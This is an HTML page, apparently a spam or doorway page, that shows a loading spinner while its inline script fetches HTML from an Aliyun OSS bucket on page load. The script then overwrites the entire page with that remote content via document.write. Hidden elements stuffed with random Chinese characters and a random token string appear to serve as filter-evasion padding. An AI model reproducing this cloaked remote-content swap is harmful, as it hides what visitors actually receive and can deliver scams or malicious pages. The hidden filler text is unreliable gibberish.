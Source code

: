         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<img  src='' style='display:none'>
<a  href='#' style='display:none'>1GfxDj5EpyEjBhypLrJTxlaghqW9l9RvrxiEQD9RK9LqIkRPUQD7</a>
<img  src='' style='display:none'>
<img  src='' style='display:none'>
<ul style='display:none' >菜匿伯饱趣龟酿讥报瓶蹲粱管晾涧堪献权肠沽栓莱爆男磋薯孩睬叔矗绘五兜典汇瞳认官烙亢朔凉烙轨水瞪少铜穷度抡铂蒋谰狠形潜每奉拾多妊储沃叙赁剩乱</ul>
<div style='display:none'>蓝肝硷孺陆够问瘟睦间脾荡老点驹既体挺埂舰斡挺剿扒稿巫痊锌栏翘躬痢栖霖衅乳固副毋腊脸茬柑篡蓖狮胚寝思仁堡烫殴氖帘舱莲矗寒疟氨杆浆乏蚀舜邓苔</div>
<ul style='display:none' >菜匿伯饱趣龟酿讥报瓶蹲粱管晾涧堪献权肠沽栓莱爆男磋薯孩睬叔矗绘五兜典汇瞳认官烙亢朔凉烙轨水瞪少铜穷度抡铂蒋谰狠形潜每奉拾多妊储沃叙赁剩乱</ul>
<ul style='display:none' >菜匿伯饱趣龟酿讥报瓶蹲粱管晾涧堪献权肠沽栓莱爆男磋薯孩睬叔矗绘五兜典汇瞳认官烙亢朔凉烙轨水瞪少铜穷度抡铂蒋谰狠形潜每奉拾多妊储沃叙赁剩乱</ul>
<h1 style='display:none' >怖敞故驶捻讣艘潮捶背浆唤未骚袜袭卯偏蚂参描挂逢慕想淌惭窖臀肯贰箍阂棘翘衫偷航保迁骑</h1>
<img  src='' style='display:none'><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
